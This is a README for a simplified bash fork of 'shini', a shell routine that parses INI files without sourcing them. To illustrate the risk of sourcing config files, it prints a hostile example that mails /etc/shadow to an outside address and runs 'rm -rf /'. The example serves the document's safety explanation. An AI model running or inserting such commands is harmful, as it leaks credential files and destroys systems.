shini
=====

A small, minimalist, <s>portable</s> <em>compatible</em><sup>1</sup> `/bin/bash` routine for reading of INI files.

<em><sup>1</sup> This script previously attempted to be "portable", that is to say - written in a manner that it would reliably have a good chance of running anywhere with no specific implementation coded inside. In order to gain usable performance on INI files bigger than "very small", it has since been modified to include shell specific implementation for recent versions of `bash` - considerably increasing performance at the cost of code complexity. Therefore, I am calling it 'compatible' herein.</em>

**NOTE** by pachi-belero: this fork contains a very simplified version of the original `shini` which disables callbacks and writing, and **supports only bash version 3** or newer.

## About

### What is `shini`?
As above. It's a small set of functions written for inclusion in shell scripts, released under the MIT license.

[pachi-belero](https://github.com/pachi-belero/) has [forked to create this simplified version](https://github.com/pachi-belero/shini-simplified) which is specifically for `bash >= 3`.  If this better meets your needs, please embrace the nature of open-source and support his work! (And send my blessings his way.). The original work from [wallyhall](https://github.com/wallyhall/) is [in this repository](https://github.com/wallyhall/shini).

### Is it slow?
Shell scripting was never designed with speed for this kind of processing in mind. That said, on recent versions of `bash` (version 3 or newer) the performance is quite acceptable.

On an 2012 i7 MacBook, a 1900 line INI file will fully parse within 0.6s:

    $ wc -l tests/php.ini 
    1917 tests/php.ini

    $ time bash ./test_perf.sh > /dev/null
    real    0m0.838s

    $ time bash ./test_perf.sh opcache > /dev/null
    real    0m0.313s

### Why do I need it?
You probably don't. But if you have or ever do find yourself writing a shell script which:
 * Needs system or user specific settings
 * Needs to read an existing INI file

... then you might find `shini` saves you a lot of time, and makes things safer.

### How can it make things safer?
Because system and user specific settings in shell scripts usually end up implemented as:

```
# /usr/local/sbin/rootonlyscript
. /etc/myscript
if [ -n SETTING1 ]; then
  echo "You didn't specify SETTING1" 1>&2
fi
```

The settings file looks like:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
```
... and everything is cool until *this* happens:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
cat /etc/shadow | mail someone@wishyouwerehere.com
rm -rf /
```

Alas, bye bye shadow file - bye bye system.

`shini` only reads the file; never includes, interprets or executes it. A better solution.

### So `shini` just makes my shell script secure?

Erm, no. Please go away and learn to code before proceeding.

Remember:
 * Your config file must always have sane file permissions - even if its an INI file
 * `shini` is to be included in your script - so it should be located somewhere safe, and with read-only permissions

Best advice, if in doubt:

```
sudo chown root:root shell-ini-parser.sh
sudo chmod 644 shell-ini-parser.sh
```

## Usage

### Show me `shini`!

To see `shini` in action in under 2 minutes:

**NOTE**: this section downloads and makes use of the original `wallyhall/shini` project, which has more tests and examples than this one. For `shini-simplified`, **bash must be used** instead of sh, and the output will differ slightly.

```
cd "$(mktemp -d -t shini)"
curl https://codeload.github.com/wallyhall/shini/tar.gz/master -o master.tar.gz
tar -xvzf master.tar.gz
chmod +x shini-master/example.sh
cd shini-master/
sh example.sh
```

You should be presented with some output like this:

```
Parsing...

  Section1.name='John Doe'
  Section1.organization='Acme Widgets Inc.'
  Section2.server='10.1.2.3'
  Section2.port='80'
  Section2.file='payroll.dat'
  Section2.this_value_was_in_hex='8739'
  Another_Section.test_key_22='test test test'
  Another_Section.var_with_leading_whitespace='value'
  Another_Section.whitespace_test='lots of whitespace'
  Another_Section.quoted_quotespace='  lots more whitespace  '
  Whitespace_Section.null_value=''

Complete.
```

You've just executed the shipped example/test script (`example.sh`) - which parses an example INI file (`example.ini`) - outputting the content in the format `[section].[key]=[value]`.

## Cool. Now show me how to include and use it myself!

Inclusion of `shini` in your own project is easy. You can put the content of `shell-ini-parser.sh` inline with your own code (not recommended, but acceptable. Make sure you appropriately include the MIT license...), or 'source' it externally - i.e.:

```
. "$(dirname "$0")/shell-ini-parser.sh"
. "/usr/local/bin/shell-ini-parser.sh"
... etc
```

`shini` works by parsing INI files line by line - skipping comments.

Each argument can should be carefully handled - always double quote (unless you're certain what you're doing). Never forget you can't guarantee what is in the INI file being parsed - it could be with evil intent.

When you're ready, invoke the parse function and (optionally) specify the specific INI section you're interested in. You can also optionally set the prefix used to name variables:

```
shini_parse_section "settings.ini"
shini_parse_section "settings.ini" "SomeSection"
shini_parse_section "settings.ini" "" "INI"
```

Bingo. All the variables found will be set in the form PREFIX__SECTION__NAME (note the double underscores and that PREFIX defaults to "SHINI"). Note that the variable names will always be uppercase.
A full (and simple) example can be found in `example.sh`. You can run `. ./example.sh` and see the new variables set, such as SHINI__SECTION1__NAME.

## Known caveats, etc

### Does `shini` follow the official INI format standards?

There are no INI format standards - so yes it does and no it doesn't?

`shini` assumes:

 * Every declaration is on a new line
 * __Sections__ are contained in square brackets, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (no spaces by default) - e.g. `[section]`
 * __Keys__ are followed by an assignment (equal) sign, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (again, no spaces by default) - e.g. `key=`
 * __Values__ follow keys, on the same line. Anything is valid, except double quotes and semi-colons. Hexadecimal values (i.e. `0x123`) are parsed and converted to decimal for you.
 * __Comments__ are lines starting with a semi-colon (`;`), such lines are ignored.
 * __Whitespace__ is ignored everywhere - except in between non-whitespace characters in values. Use double quotes (`"`) to be explicit (e.g. `key=" leading/trailing WS "`)

Due to portability constraints - some of the useful regex power isn't available to `shini`.

This caused some trade-offs - with a lack of efficient control over lazy vs greedy repeats and optional groups etc, comments can only follow key/pair values and empty lines (not sections) - and where it follows values, any whitespace between the value and semi-colon is included as the value. Explicitly use of double-quotes around the value gets around this issue.

Additionally if your key/value declaration looks like this:

```
key="value" "more text" ; comment
```

... the value reads literally:

```
"value" "more text" ; comment
```

Otherwise, all known "obviously invalid" INI content gets picked up and reported.
